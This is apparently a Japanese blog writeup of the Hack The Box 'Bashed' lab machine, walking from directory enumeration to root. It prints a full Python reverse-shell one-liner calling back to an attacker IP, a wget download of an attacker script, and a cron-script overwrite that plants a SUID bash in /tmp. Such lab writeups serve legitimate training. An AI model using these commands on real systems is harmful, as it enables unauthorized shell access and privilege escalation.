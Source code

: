 +++ 
draft = false
date = 2022-07-02T16:19:22+09:00
title = "HTB_Bashed_writeup"
description = "HTB_Bashed_writeup"
slug = ""
authors = []
tags = ["HackTheBox","OSCP"]
categories = ["Cyber Security"]
externalLink = ""
series = []
+++

# 【Hack The Box】 Bashed Writeup
## Information
- OS：Linux  
- 難易度：Easy  
- IPアドレス：10.129.100.143  
{{< figure src="/images/Bashed1.png" title="Screenshot" class="center" width="800">}}

## Recon
### autoreconでスキャンをし、80が空いていることがわかります。
```shell
└─# python3 autorecon.py 10.129.100.143
[*] Scanning target 10.129.100.143
[*] [10.129.100.143/all-tcp-ports] Discovered open port tcp/80 on 10.129.100.143
[*] [10.129.100.143/tcp/80/http/vhost-enum] The target was not a hostname, nor was a hostname provided as an option. Skipping virtual host enumeration.
[*] [10.129.100.143/tcp/80/http/known-security] [tcp/80/http/known-security] There did not appear to be a .well-known/security.txt file in the webroot (/).
[*] [10.129.100.143/tcp/80/http/curl-robots] [tcp/80/http/curl-robots] There did not appear to be a robots.txt file in the webroot (/).
```

### ブラウザでアクセスします。
{{< figure src="/images/Bashed2.png" title="Screenshot" class="center" width="800">}}

### gobusterで探索をします。
```shell
$ gobuster dir -u http://10.129.100.143 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.100.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/07 07:25:57 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://10.129.100.143/images/]
/uploads              (Status: 301) [Size: 318] [--> http://10.129.100.143/uploads/]
/php                  (Status: 301) [Size: 314] [--> http://10.129.100.143/php/]    
/css                  (Status: 301) [Size: 314] [--> http://10.129.100.143/css/]    
/dev                  (Status: 301) [Size: 314] [--> http://10.129.100.143/dev/]    
/js                   (Status: 301) [Size: 313] [--> http://10.129.100.143/js/]     
/fonts                (Status: 301) [Size: 316] [--> http://10.129.100.143/fonts/]
```

### /devにアクセスすると、ディレクトリリスティングされています。
{{< figure src="/images/Bashed3.png" title="Screenshot" class="center" width="800">}}

### phpbash.phpをクリックすると、シェルのようなプロンプトにアクセスできました。
{{< figure src="/images/Bashed4.png" title="Screenshot" class="center" width="800">}}

### ncからシェルに繋ぎます。pythonコードをターゲットマシンのプロンプトに入力します。
```shell
$ nc -lnvp 4444 
listening on [any] 4444 ...
```

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.114",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

### シェルが返ってきましたので、フラグを取ります。（フラグは省略しています）
```shell
$ nc -lnvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.100.143] 48662
/bin/sh: 0: can't access tty; job control turned off
$
```

```shell
$ cat user.txt
2c2...
```

## 権限昇格
### sudo -lでパスワード不要でsudoできるコマンドのリストを表示します。scriptmanagerは全てのコマンドをsudoのパスワードなしで実行できます。
```shell
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

### 以前に使用したものと同じPythonリバースシェルを、scriptmanagerとして再度使用します。
```shell
$ nc -lnvp 4445 
listening on [any] 4445 ...
```

```shell
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.114",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

```shell
$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.100.143] 45882
/bin/sh: 0: can't access tty; job control turned off
$ whoami
scriptmanager
```

### scriptmanagerが所有するファイルとフォルダーを列挙します。/scripts/test.pyがありました。
```shell
$ find / -xdev -type f -user scriptmanager 2>/dev/null; find -xdev -type d -user scriptmanager 2>/dev/null
/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

### /scripts/test.pyの中身を見てみると、テキストファイルに文字列を書き込んでいるだけです。
```shell
$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

### bashのSUIDバイナリを作成するPythonスクリプトをローカルで作成します。
```shell
$ cat test.py                
import os
os.system('cp /bin/bash /tmp/stef; chmod +s /tmp/stef')
```

### HTTPサーバをサーブし、タッゲートマシンに転送します。
```shell
$ cd /scripts                                
$ ls
test.py
test.txt
$ wget http://10.10.14.114/test.py -O test.py
--2022-06-07 05:16:34--  http://10.10.14.114/test.py
Connecting to 10.10.14.114:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 66 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 8.28M=0s

2022-06-07 05:16:35 (8.28 MB/s) - 'test.py' saved [66/66]

$ cat test.py
import os
os.system('cp /bin/bash /tmp/stef; chmod +s /tmp/stef')
$
```

### 数分待ち、/tmp/stef -pを実行するとrootが取れましたので、フラグを取得します。（フラグは省略しています）
```shell
$ /tmp/stef -p

whoami
root
```

```shell
cat root.txt
cc4...
```